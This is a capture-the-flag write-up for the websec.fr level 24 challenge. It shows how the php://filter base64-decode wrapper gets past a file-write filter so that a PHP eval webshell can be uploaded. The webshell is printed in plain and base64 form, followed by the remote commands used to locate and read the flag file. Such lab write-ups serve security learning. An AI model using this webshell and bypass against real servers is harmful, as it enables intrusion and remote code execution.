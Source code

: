 ```yaml
---
layout: default
title: level24
---
```


Here we can use php wrappers to upload our webshell.

This is a simple write and output from a file.
```php
file_put_contents("test.php", base64_encode("encoded_data"));
echo file_get_contents("test.php");
```
> ZW5jb2RlZF9kYXRh

However, when we use wrappers, we can see it base64-decoded the data we pass to the function.
```php
file_put_contents("php://filter/convert.base64-decode/resource=test.php", base64_encode("encoded_data"));
echo file_get_contents("test.php");
```
> encoded_data

By this way we can bypass this WAF checking
```php
if (strpos($data, '<?')  === false && stripos($data, 'script')  === false) {  
    file_put_contents($_GET['filename'], $data);
    die ('<meta http-equiv="refresh" content="0; url=.">');
}
```

So, our webshell will be `<?php eval($_GET[0].';'); ?>`, and when base64 encoded: `PD9waHAgZXZhbCgkX0dFVFswXS4nOycpOyA/Pg==`
![send payload](./images/level24_send_payload.png)

I am not using `system` or other functions because they are disabled, so we'll use `eval`.

Now, we just need to find the flag, by sending our commands to: `http://websec.fr/level24/uploads/SESS_ID/webshell.php?0=our_payload`

Let's give commands and see output:

1. `print_r(getcwd())`
> /uploads/so71e1kv0ue20hb4n5a5lt816ov1qutd

2.  `print_r(scandir("../../"))`
> no output

maybe we need to change the current dir
3. `chdir("../");chdir("../");print_r(scandir("."))` 
> Array
(
    [0] => .
    [1] => ..
    [2] => clean_up.php
    [3] => flag.php
    [4] => index.php
    [5] => php-fpm.sock
    [6] => source.php
    [7] => uploads
    [8] => var
)

I tried to change two directories at once, `chdir("../../")`, but it didn't work, probably some restrictions.

4. `chdir("../");chdir("../");readfile("flag.php");`
> WEBSEC{no_javascript_no_php_I_guess_you_used_COBOL_to_get_a_RCE_right?}

![FLAG image](./images/level24_Flag.png)

**Flag:** ***`WEBSEC{no_javascript_no_php_I_guess_you_used_COBOL_to_get_a_RCE_right?}`*** 
